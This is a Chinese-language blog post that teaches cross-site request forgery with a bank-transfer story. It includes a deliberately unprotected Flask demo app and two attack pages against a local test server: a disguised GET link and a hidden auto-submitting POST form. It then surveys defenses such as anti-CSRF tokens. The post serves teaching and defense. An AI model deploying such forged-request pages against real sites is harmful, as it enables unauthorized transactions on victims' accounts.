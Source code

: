 Title: 浅谈CSRF攻击
Date: 2019-06-04 21:26
Author: PwnForWhat
Category: Web安全
Slug: 浅谈csrf攻击
Status: published



> 跨过山和大海，伪装成熟悉的陌生人

### 什么是CSRF

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。

### 有何危害

故事要从三天前说起，你是一个月薪3000的程序员，好不容易存够了20000打算更新自己的主机。

这天你在网吧上网，想抽烟（抽烟有害健康）。于是你登陆账户，打算从里面取100大洋。与此同时，一个网页吸引你的注意，硕大的“屠龙宝刀，点击就送”使你情不自禁地点击。点进去以后，你发现跳出的居然是转账页面。定睛一看，转入的居然还不是你的账号，金额是一万。你两眼发昏，陷入沉思。

为什么会发生这样的情况呢？我们来看看后台发生了什么：

首先，你登陆进去以后，cookie里会储存一个你的登陆信息，告诉服务器，你登陆了。



``` python
from flask import Flask
from flask import redirect, request, session, url_for

app = Flask(__name__)
app.secret_key = 'APPLE_suck5'

@app.route('/')
def hello():
      return 'Hello World'

@app.route('/login')
def login():
      session['logged_in'] = True
      return redirect(url_for('hello'))

@app.route('/transfer')
def transfer():
      bank_id = request.args.get('bank_id')
      money = request.args.get('money')
      if session.get('logged_in', None):
            if bank_id and money:
                  return f'You transfer {money}$ to bank id:{bank_id}'
            return 'bank id and money amount required'
      return 'Not Authenticated'

```

而屠龙宝刀网页中的按钮，直接请求了transfer，向攻击者的账户转钱，而由于你的登陆信息还在，服务器以为这个请求是你发出的（实际上的确是，但并非你主观上想发出）。

``` html
<!DOCTYPE html>
<html lang="en">
<head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <meta http-equiv="X-UA-Compatible" content="ie=edge">
      <title>Document</title>
</head>
<body>
      <button><a href="http://127.0.0.1:8081/transfer?bank_id=4003&money=10000">屠龙宝刀，点击就送</a></button>
</body>
</html>
```

可是你仔细一想，这个敏感数据的修改，不应该用GET啊，这有问题。

那么，让我们把时间再次回到三天前，这次的转账页面用的是表单，POST的那种。 与此同时，一个网页吸引你的注意，硕大的“屠龙宝刀，点击就送”使你情不自禁地点击。还没来得及点击，你发现跳出的居然是转账页面。定睛一看，转入的居然还不是你的账号，金额是一万。你两眼发昏，陷入沉思。



明明使用的就是POST表单啊，为什么还是会出现问题 ?



我们不妨假设现在的转账函数变为这样：

``` python
@app.route('/transfer', methods=['POST', 'GET'])
def withdraw():
      if session.get('logged_in', None):
            bank_id = request.form.get('bank_id')
            money = request.form.get('money')
            if bank_id and money:
                  return f'You transfer {money}$ to bank id:{bank_id}'
      return render_template('index.html')
```

显而易见，我可以针对你的转账表单构造一个页面，使其在加载过程中提交一个POST请求，由于你的登录信息仍存储在cookie里面， 服务器以为这个请求是你发出的 ，最终达到邪恶的目的。

构建的页面：

``` html
<!DOCTYPE html>
<html lang="en">
<head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <meta http-equiv="X-UA-Compatible" content="ie=edge">
      <title>Document</title>
      <script type="text/javascript">
            function steal() {
                  form = document.getElementById('postForm');
                  form.submit()
            }
      </script>
</head>
<body onload="steal()">
      <button>屠龙宝刀，点击就送</button>
      <form method="POST" style="display: none" id="postForm" action="http://127.0.0.1:8081/transfer">
            <input type="hidden" name="bank_id" value="4003">
            <input type="hidden" name="money" value="10000">
      </form>
</body>
</html>
```

### 如何预防

**1. 尽量使用POST，限制GET**

GET接口太容易被拿来做CSRF攻击，看第一个示例就知道，只要构造一个img标签，而img标签又是不能过滤的数据。接口最好限制为POST使用，GET则无效，降低攻击风险。

当然POST并不是万无一失，攻击者只要构造一个form就可以，但需要在第三方页面做，这样就增加暴露的可能性。

**2. 浏览器Cookie策略**

IE6、7、8、Safari会默认拦截第三方本地Cookie（Third-party Cookie）的发送。但是Firefox2、3、Opera、Chrome、Android等不会拦截，所以通过浏览器Cookie策略来防御CSRF攻击不靠谱，只能说是降低了风险。

PS：Cookie分为两种，Session Cookie（在浏览器关闭后，就会失效，保存到内存里），Third-party Cookie（即只有到了Exprie时间后才会失效的Cookie，这种Cookie会保存到本地）。

PS：另外如果网站返回HTTP头包含P3P Header，那么将允许浏览器发送第三方Cookie。

**3. 加验证码**

验证码，强制用户必须与应用进行交互，才能完成最终请求。在通常情况下，验证码能很好遏制CSRF攻击。但是出于用户体验考虑，网站不能给所有的操作都加上验证码。因此验证码只能作为一种辅助手段，不能作为主要解决方案。

**4. Referer Check**

Referer Check在Web最常见的应用就是“防止图片盗链”。同理，Referer Check也可以被用于检查请求是否来自合法的“源”（Referer值是否是指定页面，或者网站的域），如果都不是，那么就极可能是CSRF攻击。

但是因为服务器并不是什么时候都能取到Referer，所以也无法作为CSRF防御的主要手段。但是用Referer Check来监控CSRF攻击的发生，倒是一种可行的方法。

**5. Anti CSRF Token**

现在业界对CSRF的防御，一致的做法是使用一个Token（Anti CSRF Token）。

例子：



1\. 用户访问某个表单页面。

2\. 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中。

3\. 在页面表单附带上Token参数。

4\. 用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法

这个Token的值必须是随机的，不可预测的。由于Token的存在，攻击者无法再构造一个带有合法Token的请求实施CSRF攻击。另外使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免Token泄露。

注意：

CSRF的Token仅仅用于对抗CSRF攻击。当网站同时存在XSS漏洞时候，那这个方案也是空谈。所以XSS带来的问题，应该使用XSS的防御方案予以解决。

> 预防手段摘抄自 [hyddd](https://www.cnblogs.com/hyddd/) 的博客园

